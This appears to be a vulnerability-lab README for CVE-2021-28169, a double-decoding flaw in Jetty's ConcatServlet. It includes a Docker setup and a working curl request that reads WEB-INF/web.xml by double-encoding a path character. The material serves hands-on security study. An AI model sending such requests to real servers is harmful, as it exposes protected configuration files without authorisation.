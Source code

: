 # Jetty Utility Servlets ConcatServlet Double Decoding Information Disclosure Vulnerability (CVE-2021-28169)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Before version 9.4.40, 10.0.2, 11.0.2, the `ConcatServlet` and `WelcomeFilter` classes in Jetty Servlets are influenced by a double decoding bug. If developers use these two classes manually, attackers can use them to download arbitrary sensitive files in the WEB-INF directory.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## Vulnerable Application

Execute the following command to start a Jetty 9.4.40 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page. This page uses the `ConcatServlet` to optimize the loading of static files:

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

## Exploit

The sensitive file web.xml is not accessible through `/static?/WEB-INF/web.xml`.

![](1.png)

Double URL encoding `W` to bypass the restriction:

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![](2.png)

